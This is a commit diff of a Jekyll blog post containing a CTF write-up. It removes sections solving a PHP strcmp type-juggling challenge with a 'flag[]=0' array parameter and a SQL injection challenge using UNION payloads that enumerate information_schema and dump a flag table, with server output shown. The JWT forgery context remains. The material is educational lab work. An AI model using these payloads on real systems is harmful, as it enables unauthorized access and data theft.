

Before and after one commit to yaserfaraj/yaserfaraj.github.io, a Jekyll site: the page built from _posts/2020-04-5-VirSecCOn.md, in a window 1280 px wide and 1400 px high, scrolled down 4080 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2020-04-5-VirSecCOn.md

````diff
--- a/_posts/2020-04-5-VirSecCOn.md
+++ b/_posts/2020-04-5-VirSecCOn.md
@@ -196,109 +196,3 @@ Now lets use jwt the online tool [here](https://jwt.io/#debugger-io?token=eyJhbG
 by changing the user to `admin` and put the secret as `fuckit` and then resend it the server to see we are logged in as `admin`. Then, you will see the flag.
 
 Flag `LLS{jawt_was_just_what_you_thought}`
-
-### PHPJuggler : Web Challenge
-
-give a source code
-```php
-<?php
-
-    include('flag.php');
-
-    if ( isset($_POST['flag']) ){
-        if ( strcmp( $_POST['flag'], $flag ) == 0 ){
-            echo("You got it! That's the correct flag! <br>");
-            echo($flag);
-        }else{
-            echo("NOPE! Wrong flag.");
-        }
-        echo ("<br><br>");
-    }
-
-    highlight_file(__FILE__);
-?>
-
-<html>
-<head> <title> PHP Juggler </title> </head>
-    <body>
-    <br><br>
-    <form action="#" method="POST">
-        <p> Tell me the flag. </p>
-        <input type="text" name="flag">
-        <input type="submit" value="Submit">
-    </form>
-</html>
-```
-
-we can see it been used `strcmp` to compare to value to `0`. This one is also an old vulnerability in `PHP`. By changing the parameter to array it will send type array which is read by `PHP` as `zero`
-
-```
-POST / HTTP/1.1
-
-Host: jh2i.com:50030
-
-User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
-
-..
-
-flag[]=0
-```
-
-and here is the responds,
-
-```
-Warning: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 6
-You got it! That's the correct flag!
-LLS{php_dropped_the_ball_again}
-```
-
-### Sequelitis : Web Challenge
-
-Here is a classic `SQL injection`
-
-to show all customers: `' or 1=1#;`
-Union statement : `' union select 1,2,3#;`
-
-then we found we have three databases:
-```
-1 information_schema: 3
-1 mysql: 3
-1 performance_schema: 3
-1 sequelitis: 3
-```
-Lets check the tables of `sequelitis`
-```sh
-'+union+select+1,table_name,3+from+information_schema.tables+where+table_schema%3d'sequelitis'%23%3b
-
-<pre>
-Customers returned are:
-
-1 customers: 3
-1 flag: 3
-
-</pre>
-```
-Now lets check columns name:
-
-```sh
-'+union+select+1,column_name,3+from+information_schema.columns+where+table_name%3d'flag'%23%3b
-
-<pre>
-Customers returned are:
-
-1 value: 3
-
-</pre>
-```
-
-Lets read the flag
-```sh
-first_name='+union+select+1,value,3+from+flag%23%3b
-<pre>
-Customers returned are:
-
-1 LLS{explicit_sqli_is_how_sql_will_die}: 3
-
-</pre>
-
-```
````
